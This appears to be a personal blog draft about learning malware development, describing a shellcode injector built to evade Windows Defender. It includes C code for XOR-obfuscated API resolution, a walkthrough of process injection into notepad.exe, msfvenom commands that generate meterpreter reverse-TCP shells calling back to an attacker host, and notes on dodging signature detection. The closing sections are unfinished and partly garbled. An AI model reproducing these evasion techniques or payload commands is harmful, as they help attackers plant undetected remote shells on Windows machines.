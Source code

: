 +++
title = 'My first steps in MalDev'
date = 2024-02-28T20:53:30+01:00
draft = false
showDate = true
description = 'Aweonao'
toc = true
+++
## Prelude
Around this last month I have been digging into the Malware Development world. I have always wanted to expand my knowledge within this field, and I felt like it was the moment to do so. 

As mentioned in many other blogposts, [Sektor7 Malware Development Essentials](https://www.google.com/search?client=firefox-b-d&q=sektor7+malware+development) course was a good point to start. Nevertheless, I found this course very short and I felt like most of the important concepts are ignored (e.g., **what is a handle?**) and are just used like if I already know them.

Because of that, I actually recommend **take a little stop on each of the things that the course shows you in order to UNDERSTAND what does each line do** and also do some personal research on each of the things that the course provides.

I personally made questions like:
- What are the parameters of this function? 
- Why is this function called in the code?
- How could I develop this in a way that it could be more stealthy?
- What are these compile options?

I wanted to make sure that I really learnt from this course and compiling and execute the code they give you is not the way to do it. I personally recommend to watch their videos, take some notes, and reproduce and execute the code in your personal project files. **Do not be scared to improve or modify the code they give you if you think that can be useful.**

The result of following these steps was a final course project in which I included all of the techniques given in the course to avoid detection (mainly static detection, it is a basic course) **combined with am extra technique that made me bypass Windows Defender sandbox analysis.**

Please note that I have just started to learn about these things and that I can be wrong; feel free to contact me at any of my social media to improve the quality of this post and my content overall.

## ¿Evasive? loader/injector

The final project consists on a **shellcode loader/injector (let's use injector from now on)**. 
This shellcode injector **is able to bypass Windows Defender with a meterpreter x64 shellcode at the day of this post (2024/03/05) with Cloud Protection enabled.**

This injector has the following properties:
- It is an executable (.EXE) program. No DLL version for now.
- The shellcode is stored as a resource AND "encrypted" using XOR.
- The Windows API calls are calculated in run-time using the [Run-Time Dynamic Linking](https://learn.microsoft.com/en-us/windows/win32/dlls/run-time-dynamic-linking) technique. This corresponds to the [API obfuscation technique](https://unprotect.it/technique/api-obfuscation/) from my fellas of Unprotect Project.
- The strings to calculate the pointer to the API functions using the aforementioned technique are also encrypted with the same XOR key used for the shellcode, in order to obfuscate the strings.
- The XOR key is also stored as a resource in the executable.
- The program in which it injects into is `notepad.exe`. The injector obtains the PID given the process name and uses the PID to inject into. 

The API calls performed in this executable are simple:
- `FindResource` and `LoadResource` to obtain the embedded resources in the executable.
- `VirtualAlloc`, `RtlMoveMemory`, `VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx` and `CreateRemoteThread` for the injection technique.
- `GetProcAddress` and `GetModuleHandle` to perform the IAT hiding technique.
- `CreateToolhelp32Snapshot`, `Process32First` and `Process32Next` to obtain the PID given a process name.

The injector has the following phases:
- It starts obtaining the XOR key from the resources section of the file.
- Using this key to decrypt the string names of the API calls, uses the relevant API functions to obtain the PID from the process name specified as a variable. The process name is hardcoded into the program **as a real malware would do; otherwise, we would need to call this dropper with arguments somehow.** Notepad.exe was used as an example, but it could be performed with more common processes as explorer.exe. Just modify the process name variable.
- The dropper allocates memory in **its own process space and stores the shellcode embedded as a resource in this memory region. Note that the shellcode is stored in this region but not executed, as this is an intermediate step to then move the shellcode to the target process.**
- Using this obtained PID, the injector opens a handle to the process with the given PID and allocates memory space within the process region. The shellcode is then moved from the region that was previously created to this region.
- A remote thread is started pointing to the remote memory region.

The result is a thread in the remote process executing our shellcode, without Windows Defender noticing.

## Evasion techniques
Here is a detailed overview of each of the things I implemented in the program to make it stealthier, both statically and dinamically. Overall, I think that it is missing a lot of evasion techniques but as I repeated before, I am just learning slowly to know what I am exactly doing without copypasting.

### IAT hiding + encrypted strings
The API calls are resolved dinamically, therefore, not appearing in the IAT of the file.
Let's see the snippet of the code to obfuscate an API call:
```c
// VirtualAllocEx\0 char array encrypted with the XOR key
unsigned char VirtualAllocExEncrypted[] = { 0x3F, 0xDF, 0xBC, 0x57, 0x51, 0x69, 0x86, 0x22, 0x0C, 0xF3, 0xCC, 0xE7, 0x4F, 0x6A, 0xAB };
// Decrypting the string
XOR(VirtualAllocExEncrypted, sizeof(VirtualAllocExEncrypted), key, key_len);
// Obtaining the pointer to the VirtualAllocEx function at runtime
auto const pVirtualAllocEx = reinterpret_cast<LPVOID(WINAPI*)(HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect)>(
		GetProcAddress(GetModuleHandle("kernel32.dll"), (LPCSTR)VirtualAllocExEncrypted)
		);
// Calling the function using the pointer
	lpBufferAddress = pVirtualAllocEx(hOpenProcess, NULL, shellcode_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
```
The string is encrypted to not use GetProcAddress and insert the hardcoded "`VirtualAllocEx`" function name. **This would result in the function name appearing as a string in the file.** 
Given this technique, PE analyzers do not display any information about these calls in the IAT nor in the strings:



### 

Static analysis can also be based on specific byte sequences, or bad bytes in executables.
NOte that PID the frist.
The definition given by [MalwareBytes](https://www.malwarebytes.com/glossary/signature) of a malware signature is as follows:

> In computer security, a signature is a specific pattern that allows cybersecurity technologies to recognize malicious threats, such as a byte sequence in network traffic or known malicious instruction sequences used by families of malware. Signature-based detection, then, is a methodology used by many cybersecurity companies to detect malware that has already been discovered in the wild and cataloged as part of a database.

The phrase: “known malicious instruction sequences used by families of malware” is of particular interest, as it implies that security products are looking for specific byte sequences in executables and are able to identify them as malicious based on just those sequences.

This means that if we are able to accurately identify which byte sequences are being detected as malicious, we can replace them with benign bytes, and evade static detection.

Next, we can pass the executable into a decompiler such as [Ghidra](https://ghidra-sre.org/) and identify the code section that the byte sequence belongs to, we can jump to a memory offset using `G` and provide the offset as: `file ( OFFSET )`

https://steve-s.gitbook.io/0xtriboulet/deceiving-defender/deceiving-defender-name-bypass

Stage: msfvenom --platform windows --arch x64 -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.143 LPORT=443 -f raw -o meterpreter EXITFUNC=thread
Non-staged: msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.143 LPORT=443 -f raw -o meterpreter EXITFUNC=thread

Works with stager

![[Pasted image 20240303203124.png]]


ideas futuras
cambiar el algoritmo de envcriptacion
encriptar con clave en dominio 
encriptar con clave de hostname, asi solo funciona en la target machine.